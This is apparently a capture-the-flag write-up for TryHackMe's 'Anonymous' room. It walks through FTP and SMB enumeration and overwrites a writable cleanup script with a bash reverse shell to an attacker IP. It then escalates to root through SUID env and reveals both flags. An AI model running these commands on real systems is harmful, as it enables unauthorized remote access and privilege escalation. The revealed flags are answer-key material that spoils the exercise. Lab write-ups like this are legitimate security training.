 # Room: [Anonymous](https://tryhackme.com/room/anonymous) (*Not the hacking group*) :wink:


## Basic Enum

Nmap / rustcan

```zsh
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```zsh
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))

```

- There's a share on the user's computer. What's it called?
**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```zsh
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's cat each files: 

```zsh
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```zsh
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```zsh
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

## Basic shell

So let's have fun by uploading this reverse shell via ftp now:

```zsh
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/4242 0>&1
```

And after few seconds we are in :

```zsh
rlwrap nc -nlvp 4242
listening on [any] 4242
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992[Redcated]8748c414740
namelessone@anonymous:~$ 

```
<details>
  <summary>Click to reveal the user flag!</summary>
  
  ```bash
  90d6f992585815ff991e68748c414740
  ```
</details>
 
> HINT: This may require you to do some outside research

Cool ! So as usual in this case, [gtfobins](https://gtfobins.github.io/) comes in :point_left:

```zsh
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```zsh
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091[Redacted]f27999af363
bash-4.4# 

```

Houra :partying_face:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```zsh
  4d930091c31a622a7ed10f27999af363
  ```
</details>
 
